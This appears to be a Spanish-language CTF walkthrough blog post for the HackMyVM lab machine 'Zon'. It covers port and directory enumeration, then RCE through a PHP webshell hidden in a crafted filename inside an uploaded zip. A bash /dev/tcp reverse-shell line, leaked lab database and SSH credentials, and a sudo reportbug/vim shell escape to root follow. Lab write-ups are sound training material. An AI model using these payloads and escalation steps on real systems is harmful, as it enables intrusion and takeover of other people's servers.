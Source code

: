 ```yaml
---
layout: post
title: HackMyWM - Zon
author: c4rta
date: 2024-01-24
tags: [HackMyWM, File Upload, Command Injection]
image: /assets/img/zon/waifu.jpg
---
```


## Enumeracion

Iniciamos con un escaneo de nmap donde encontraremos el puerto 22(SSH) y 80(HTTP)

```ruby
nmap -sS -n -Pn --open -p- 192.168.1.74
```
- sS: haga un TCP SYN Scan el cual hace un escaneo sigiloso sin completar las conexiones TCP, responde con un SYN/ACK si el puerto esta abierto

 - n: para que no haga resolucion DNS y tarde menos el escaneo

 - Pn: para evitar el descubrimiento de hosts

 - open: para que solo muestre los puertos abiertos

 - -p-: para que escanee todo el rango de puertos

```ruby
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Directory Fuzzing

Al principio intente hacer fuzzing con el diccionario de **directory-list-2.3-medium.txt** pero no encontre nada, por lo que use uno de archivos, y encontre el endpoint **choose.php** haciendo uso de gobuster

```ruby
gobuster dir -u 192.168.1.74 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 50
```
```ruby
/choose.php           (Status: 200) [Size: 1908]
```

## Explotacion (Command injection via filename)

Viendo el funcionamiento de **choose.php**, vemos que podemos subir archivos .zip con archivos .jpeg dentro, y una vez subidos, se encuentran en el recurso **/uploads**. Si intentamos subir un archivo que no es jpeg, nos muestra algo como esto

    File prueba.zip has been uploaded.Archive contains non-JPEG files. It will be deleted.

En este punto podriamos probar tratar de hacer bypass de algunos filtros o hacer zip symlik pero no sera necesario, despues de una busqueda, encontre una forma de hacer **command injection** a travez del nombre del archivo que se sube a un sitio web, como se explica en este blog: [https://0xn3va.gitbook.io/cheat-sheets/web-application/file-upload-vulnerabilities#abuse-filename](https://0xn3va.gitbook.io/cheat-sheets/web-application/file-upload-vulnerabilities#abuse-filename)

Vemos que nos dice podemos ejecutar comandos si subimos un archivo con este nombre **a$(whoami)z.jpeg**, que viendo su funcionamiento, se trendria que hacer la expansion de comandos y mostrar el resultado de **whoami**, intente eso pero subiendo una webshell y no me funciono, entonces se me ocurrio que podria ser del nombre del archivo, asi que tenia que ponerlo de forma literal usando comillas simples para que no me escapara los caracteres especiales como el espacio, ademas de poner la extension **.jpeg**  para que lo aceptara. Asi que los pasos fueron:

1. Crear un archivo php que sea una webshell, yo use: **<?php system($_GET['cmd']); ?>**

2. Renombar el archivo:  
    ```ruby
    cp shell.php 'hola.jpeg .php'
    ```
    Se tiene que poner el espacio y entre comillas para que se interprete de forma literal, como se ve en la imagen en el archivo de arriba

    ![](/assets/img/zon/1.png)

3. Y por ultimo se comprime: **zip ola.zip 'hola.jpeg .php'**

Una vez que se suba, veremos nuestro archivo php, y habemos podido conseguir RCE

![](/assets/img/zon/3.png)

![](/assets/img/zon/2.png)

Ahora nos podemos enviar una reverse shell usando bash:

```bash
bash -i >& /dev/tcp/<ip>/443 0>&1 <-- Usar URL encode
```

## www-data -> freddie

Si realizamos una busqueda para mostrar los archivos asociados a un grupo, encontraremos uno que se llama **hashdb.sh**

```ruby
find / -type f -group www-data 2> /dev/null
```
```ruby
/var/www/html/hashDB.sh
```

Al ver si contenido, nos podemos dar cuenta que se conecta a mysql y se filtran las credenciales: **admin:-pudgrJbFc6Av#U3**

```bash
#!/bin/bash

# script that checks the database's integrity every minute

dump=/dev/shm/dump.sql
log=/var/log/db_integrity_check.log
true > "${log}"

/usr/bin/mysqldump -u admin -pudgrJbFc6Av#U3 admin credentials > "${dump}" <-- Credenciales
/usr/bin/sed -i '$d' "${dump}"

hash="29d8e6b76aab0254f7fe439a6a5d2fba64270dde087e6dfab57fa57f6749858a"
check_hash=$(sha256sum "${dump}" | awk '{print $1}')

if [[ "${hash}" != "${check_hash}" ]] ; then
  /usr/bin/wall "Alert ! Database hacked !"
  /usr/bin/du -sh /var/lib/mysql >> "${log}"
  /usr/bin/vmstat 1 3 >> "${log}"
else
  /usr/bin/sync && /usr/bin/echo 3 > /proc/sys/vm/drop_caches
  /usr/bin/echo "$(date) : Integrity check completed for ${dump}" >> "${log}"
fi
```

Si nos conectamos, y mostramos las bases de datos, en la base de datos  **admin** encontramos la tabla **credentials** y las credenciales del usuario **freddie** que usaremos en ssh

![](/assets/img/zon/4.png)

usr: freddie

pass: LDVK@dYiEa2I1lnjrEeoMif

## Escalada de privilegios

Al mostrar los permisos a nivel de sudoers podremos ver el archivo **/usr/bin/reportbug** que es un script de python

```ruby
file /usr/bin/reportbug
/usr/bin/reportbug: Python script, ASCII text executable
```
La verdad ni lo vi completo, pero jugue con las funciones, y parece ser un script que enviar reportes de bugs en paquetes de debian, pero, la cuestion es que en un punto nos dice que editor queremos usar y nos da las opciones de **vim** y **nano**, si hacemos una busqueda en GFTOBins, nos dice que podemos spawnear una shell usando ese editor: [https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/)

Asi que los pasos a seguir son

1. Ejecutar el script y seleccionar la opcion 4 (expert) y rellenar los datos
2. Volvelo a ejecutar y cuando nos diga *Please enter the name of the package in which you have found a problem*, ingresamos "other"
3. Ponemos el numero **12**
4. Si sale el prompt: *Is the bug you found listed above* , le damos **s**
5. Si sale *Please select a severity level:*, le damos **4**
6. Si sale: *Please select tags: (one at a time)*, le damos enter
7. Despues nos deberia de pedir el editor, seleccionamos **vim** e ingresamos estos comandos de vim

```ruby
set shell=/bin/bash
```

Y despues mandamos a llamar a la variable escribiendo **shell** y ya seremos root

![](/assets/img/zon/5.png)

Espero que esta parte la haya explicado en esta parte

Eso ha sido todo, gracias por leer ❤




